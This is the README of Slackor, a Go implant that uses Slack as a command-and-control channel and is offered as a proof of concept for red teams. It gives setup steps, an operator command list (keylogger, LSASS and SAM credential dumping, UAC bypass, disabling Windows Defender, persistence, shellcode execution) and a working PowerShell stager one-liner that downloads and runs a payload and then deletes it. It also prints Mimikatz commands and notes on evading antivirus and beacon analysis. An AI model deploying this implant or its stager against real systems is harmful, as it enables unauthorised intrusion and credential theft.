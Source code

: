 # Slackor \#
A Golang implant that uses Slack as a command and control channel.

This project was inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) and [Twittor](https://github.com/PaulSec/twittor). 


![Slackor Screenshot](https://www.n00py.io/wp-content/uploads/2018/10/screenshot.png)
![Wireshark Screenshot](https://www.n00py.io/wp-content/uploads/2018/09/slackor_wireshark-2-1024x349.png)
This tool is released as a proof of concept.  Be sure to read and understand the [Slack App Developer Policy](https://api.slack.com/developer-policy) before creating any Slack apps.  

Setup 
=====

**Note: The server is written in Python 3**

For this to work you need:
- A Slack Workspace
- [Register an app](https://api.slack.com/apps) with the following permissions:
    - **channels:read** 
    - **channels:history** 	
    - **channels:write** 	
    - **files:write:user** 
    - **files:read** 

- Create a bot

This repo contains five files:
- ```install.sh``` Installs dependancies
- ```setup.py``` The script to create the slack channels, database, and implant
- ```agent.py``` Script to generate new implants
- ```server.py``` The Slackor server, designed to be ran on Linux
- ```agent.go``` The golang implant
- ```requirements.txt``` Python dependencies (installed automatically)

To get started:

 - Run ```install.sh```
 - Run ```setup.py```
    - Supply the *OAuth Access Token* and *Bot User OAuth Access Token* from your app

After running the script successfully, a file ```agent.exe``` will be created.  It will be a 64bit Go binary packed with UPX.

After starting server.py on a Linux host, execute ```agent.exe``` on your target Windows host.

Run the "stager" module to generate a one-liner and other droppers.
 ```
 powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
 ```
 This will execute InvokeWebRequest(PS v.3+) to download the payload, execute it using a [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/), and then delete itself once killed.  This is a working example but the command can tweaked to use another download method or execution method.   

Usage 
=====
Type "help" or press [TAB] to see a list of available commands.  type "help [COMMAND]" to see a description of that command.

```(Slackor)```

- **Help** - Displays help menu
- **interact** - Interact with an agent
- **list** - List all registered agents
- **remove** - kill and remove an agent
- **revive** - Sends a signal to all agents to re-register with the server
- **stager** - Generates a one-liner to download an execute the implant
- **quit** - Quit the program
- **wipefiles** - Deletes all uploaded files out of Slack

Once an agent checks in, you can interact with it.
Use "interact [AGENT] to enter into an agent prompt.  Type "help" or press [TAB] to see a list of available commands.

```(Slackor:AGENT)```

- **back** - Return to the main menu
- **beacon** - change the amount of time between each check-in by an agent (default is 5 seconds)
- **bypassuac** - Attempts to spawn a high integrity agent
- **cleanup** - Removes persistence artifacts
- **clipboard** - Retreives the contents of the clipboard
- **defanger** - Attempts to de-fang Windows Defender
- **download** - Download a file from the agent to the Slackor server
- **duplicate** - Causes the agent to spawn another invocation of itself
- **getsystem** - Spawns an agent as NTAUTHORITY/SYSTEM
- **help** - Displays help menu
- **keyscan** - Starts a keylogger on the agent
- **kill** - Kill the agent 
- **minidump** - Dumps memory from lsass.exe and downloads it  
- **persist** - Creates persistence by implanting a binary in an ADS
- **samdump** - Attempts to dump the SAM file for offline hash extraction
- **screenshot** - Takes a screenshot of the desktop and retrieves it
- **shellcode** - Executes x64 raw shellcode
- **sleep** - Cause the agent to sleep once (enter time in seconds)
- **sysinfo** - Displays the current user, OS version, system architecture, and number of CPU cores
- **upload** - Upload a file to the agent from the Slackor server
- **wget** - Pull down arbitrary files over HTTP/HTTPS 


#### OPSEC Considerations

Command output and downloaded files are AES encrypted in addition to TLS transport encryption.
 
Modules will warn you before performing tasks that write to disk.  
When executing shell commands, take note that cmd.exe will be executed.  This may be monitored on the host.
Here are several OPSEC safe commands that will NOT execute cmd.exe:

- **cat** - prints file content
- **cd** - change directory
- **find** - search directory filenames 
- **getip** - Get external IP address (makes a DNS request)
- **hostname** - Displays the name of the host
- **ifconfig** - Displays interface information
- **ls** - list directory contents
- **mkdir** - Creates a directory
- **pwd** - prints the current working directory
- **rm** - removes a file
- **rmdir** - removes a directory
- **whoami / getuid** - prints the current user

Credits
=====
- https://github.com/EgeBalci -  Functions adapted from [HERCULES](https://github.com/EgeBalci/HERCULES) and [EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT)
- https://github.com/SaturnsVoid - Keylogger adapted from [GoBot2](https://github.com/SaturnsVoid/GoBot2)
- https://github.com/vyrus001 - x64 shellcode execution [shellGo](https://github.com/vyrus001/shellGo)
- Crypto functions adopted from https://www.golang123.com/topic/1686 
- Persistence idea from [Enigma0x3](https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/)
- Minidump adoped from [Merlin](https://github.com/Ne0nd0g/merlin), credit to [C-Sto](https://github.com/C-Sto)
- Screenshot code from [kbinani](https://github.com/kbinani/screenshot)
- Clipboard code from [atotto](https://github.com/atotto/clipboard)
- Stager generator from [hlldz](https://github.com/hlldz/SpookFlare)
- UAC bypass by [winscripting.blog](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
- Lulzbin find by [@vector_sec](https://twitter.com/vector_sec/status/896049052642533376]) 
- Countless threads on StackOverflow
- Thanks to [impacket](https://github.com/SecureAuthCorp/impacket) for dumping hashes from SAM/SYS/SECURITY reg hives. 
- LSASS dump credential extraction made possbile using [pypykatz](https://github.com/skelsec/pypykatz) by skelsec
- Bob Aman ([Sporkmonger](https://github.com/sporkmonger)) for various additions

Future goals 
=====
- DOSfuscation 
- Reflectively load DLL/PE - https://github.com/vyrus001/go-mimikatz
- Execute C# assemblies in memory - https://github.com/lesnuages/go-execute-assembly
- Source code obfuscation https://github.com/unixpickle/gobfuscate

FAQ:
=====
**Is this safe to use for red teams/pentesting?** 

Yes, given some conditions.  While the data is encrypted in transit, the agent contains the key for decryption.
Anyone who acquires a copy of the agent could reverse engineer it and extract the API keys and the AES secret key.
Anyone who compromises or otherwise gains access to the workspace would be able to retrieve all data within it. 
For this reason, it is not recommended to re-use infrastructure against multiple organizations.    

**What about Mimikatz?**

The implant does not have in-memory password dumping functionality.
If you need logonPasswords, you can try the following:
```
(Slackor: AGENT)minidump
```
THis will automically extract passwords with Pypykatz.  Alternatively, you can use Mimikatz on Windows.
```
>mimikatz.exe
mimikatz # sekurlsa::Minidump lsassdump.dmp
mimikatz # sekurlsa::logonPasswords
```
**Is it cross-platform?** 

Not yet. It has not been fully tested on a variety of systems.  The server was designed to run on Kali Linux and the agent on Windows 10.  

**How well does it scale?** 

Scalability is limited by the Slack API.  If you have multiple agents, consider increasing the beacon interval of beacons not in use.  

**Is it vulnerable to standard beacon analysis?** 

Currently each beacon has 20% jitter built in, and beacon times can be customized.  Agent check-in request and response packets will be about the same size each time as long as no new commands are recieved.

**Why did you do [x] when a better way to do it is [y]?**

I tried my best.  PRs are encouraged :)

**It gets caught by AV!**

With this being open source now, it's bound to have issues.  I'll fix modules as I can but there is no guarantee this will bypass all AV at all times.
